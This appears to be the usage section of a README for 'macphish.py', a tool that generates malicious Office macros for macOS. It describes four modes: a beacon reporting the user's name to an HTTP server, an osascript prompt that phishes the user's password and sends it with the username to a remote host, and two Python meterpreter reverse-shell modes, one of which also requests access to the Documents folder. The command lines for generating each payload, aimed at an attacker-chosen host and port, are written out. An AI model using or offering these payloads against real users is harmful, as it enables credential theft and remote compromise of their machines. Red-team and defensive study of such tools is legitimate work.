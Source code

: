 # Usage
 
## beacon (Office 2011/Office 2016)
This mode generates a simple 'beacon' payload that will signal a HTTP server. This module is useful for stats/evidence when no access to user files is required. The HTTP request will include the user name that executed the payload. We are using curl here but it is very easy to change it to nslookup, ping, dig, etc.

To generate a beacon payload, simply select 'beacon' as the attack mode and set the listening hostname:

    $./macphish.py -a beacon -lh <host>

## creds (Office 2011/Office 2016)
This module generates payloads for credential phishing. This payload generates a prompt that attempts to phish user credentials abusing osascript functionality. The username is obtained from the system information which is sent along with the entered password to a HTTP server.

To generate the macro:

    $./macphish.py -a creds -m -lh <host> 

To generate the Applescript payload to be executed from a shell:

    $./macphish.py -a creds -lh <host> 

## meterpreter (Office 2011/Office 2016 with limitations)
This module generates python meterpreter payloads. In Office 2016, it will run inside the App Sandbox. 

To generate a macro that will execute a Python meterpreter payload (Note that only Python payloads will work):

    $./macphish.py -a meterpreter -lh <host> -lp <port> -p <payload type> -m

## meterpreter-grant (Office 2011/Office 2016)

This payload executes a Python meterpreter after calling GrantAccessToMultipleFiles(/Users/<user>/Documents). The meterpreter shell will have access to user documents if permissions are granted. Additionally, the document must be run from anywhere (including subfolders) inside the Documents folder.

To generate a macro that will execute a Python meterpreter payload (Note that only Python payloads will work):

    $./macphish.py -a meterpreter-grant -lh <host> -lp <port> -p <payload type> -m
